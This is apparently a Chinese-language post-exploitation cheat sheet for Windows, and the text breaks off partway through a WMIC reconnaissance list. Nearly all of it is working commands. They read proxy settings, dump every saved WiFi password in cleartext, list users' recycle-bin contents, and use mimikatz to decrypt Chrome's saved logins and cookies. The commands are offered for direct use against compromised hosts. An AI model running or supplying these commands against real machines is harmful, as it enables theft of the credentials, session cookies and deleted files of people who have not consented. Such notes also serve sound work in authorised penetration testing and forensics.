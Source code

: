 ### 代理信息

```bash
REG QUERY "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
#通过pac文件自动代理情况
REG QUERY "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```

### Wife密码

```bash
netsh wlan show profile

netsh wlan show profile name="HUAWEI-MINGY" key=clear
#一条命令获取连接过的wifi密码，企业认证的获取不到
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

### 回收站信息

```BASH
FOR /f "skip=1 tokens=1,2 delims= " %c in ('wmic useraccount get name^,sid') do dir /a /b C:\$Recycle.Bin\%d\ ^>%c.txt
#目录路径在 C:\$Recycle.Bin
```

> `$I` 开头的文件保存的是路径信息
> `$R` 开头的文件保存的是文件内容

### Chrome浏览器信息

> 获取Chrome浏览器历史记录和Cookie，chrome的用户信息保存在本地，文件为 sqlite 数据库格式

路径：

> `%localappdata%\google\chrome\USERDA~1\default\LOGIND~1`
> `%localappdata%\google\chrome\USERDA~1\default\cookies`

`mimikatz`获取内容：

```bash
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit

mimikatz.exe privilege::debug log "dpapi::chrome  /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit
```

### WMIC收集信息

> wmic.bat

```bash
:: BIOS信息
wmic BIOS list full /format:htable >> wmic.html
:: CPU信息
wmic CPU list full /format:htable >> wmic.html
:: 启动配置管理
wmic BOOTCONFIG list full /format:htable >> wmic.html
:: 系统环境管理
wmic ENVIRONMENT list /format:htable >> wmic.html
:: 系统帐户管理
wmic SYSACCOUNT list full /format:htable >> wmic.html
:: 共享资源管理
wmic SHARE list full /format:htable >> wmic.html
:: 进程
```